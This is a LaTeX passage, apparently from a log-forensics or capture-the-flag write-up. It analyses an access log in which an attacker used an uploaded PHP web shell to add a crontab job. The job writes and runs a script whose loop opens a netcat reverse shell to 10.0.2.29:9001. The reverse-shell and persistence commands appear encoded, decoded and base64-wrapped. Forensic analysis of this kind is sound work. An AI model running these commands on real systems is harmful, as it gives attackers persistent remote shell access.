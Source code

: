 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{enumerate}[label=(\alph*)]
\begin{enumerate}[label=(\arabic*)]
\begin{verbatim}
    return 0;
}
      \end{verbatim}

      \item However, this doesn't seem to be the only attack. Later down
      the access log, we see some shell script being injected, while also
      modifying crontab.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines, breakanywhere, breakanywheresymbolpre=]
10.0.2.29 - - [23/Apr/2024:12:25:02 +0800] "GET /uploads/662f9a8dc30bb.php?cmd=echo%20%220%20*%20*%20*%20*%20echo%20%23!1%2Fbin%2Fash%0Awhile%20true%3B%20do%0A%20%20nc%2010.0.2.29%209001%20-e%20ash%0A%20%20sleep%205%0Adone%20%3E%20/var/www/html/uploads/a.sh%20&&%20chmod%20777%20/var/www/html/uploads/a.sh%20&&%20/var/www/html/uploads/a.sh%22%20|%20crontab%20- HTTP/1.1" 200 5 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "-"
      \end{Verbatim}
      If we decode the percent-encoded query string, we see the command.
      \begin{Verbatim}[frame=single, fontsize=\small, breaklines]
echo "0 * * * * echo #!1/bin/ash\nwhile true; do\n  nc 10.0.2.29 9001 -e ash\n  sleep 5\ndone > /var/www/html/uploads/a.sh && chmod 777 /var/www/html/uploads/a.sh && /var/www/html/uploads/a.sh" | crontab
      \end{Verbatim}

      By writing the command to crontab, \verb|/var/www/html/uploads/a.sh| is generated and
      executed every hour.

      This \verb|a.sh| tries to open a TCP tunnel to the attacker \verb|10.0.2.29:9001|
      every 5 seconds, meanwhile gaining shell access via nc's option \verb|-e ash|.
      \begin{Verbatim}[frame=single]
#!1/bin/ash
while true; do
  nc 10.0.2.29 9001 -e ash
  sleep 5
done
      \end{Verbatim}
    \end{enumerate}

    \pagebreak
    \textbf{Side note}

    If we inspect crontab or \verb|a.sh|, we see that the command is base64-encoded.
    This isn't seen in the access log, and there are no signs of decoding the contents
    and then executing it.
    \begin{Verbatim}[frame=single, fontsize=\small, breaklines, breakanywhere, breakanywheresymbolpre=]
# crontab -l
0 * * * * echo IyExL2Jpbi9hc2gKd2hpbGUgdHJ1ZTsgZG8KICBuYyAxMC4wLjIuMjkgOTAwMSAtZSBhc2gKICBzbGVlcCA1CmRvbmUK > /var/www/html/uploads/a.sh && chmod 777 /var/www/html/uploads/a.sh && ash a.sh &
# cat /var/www/html/uploads/a.sh
IyExL2Jpbi9hc2gKd2hpbGUgdHJ1ZTsgZG8KICBuYyAxMC4wLjIuMjkgOTAwMSAtZSBhc2gKICBzbGVlcCA1CmRvbmUK
# base64 -d /var/www/html/uploads/a.sh
#!1/bin/ash
while true; do
  nc 10.0.2.29 9001 -e ash
  sleep 5
done
    \end{Verbatim}


\end{enumerate}
\end{document}
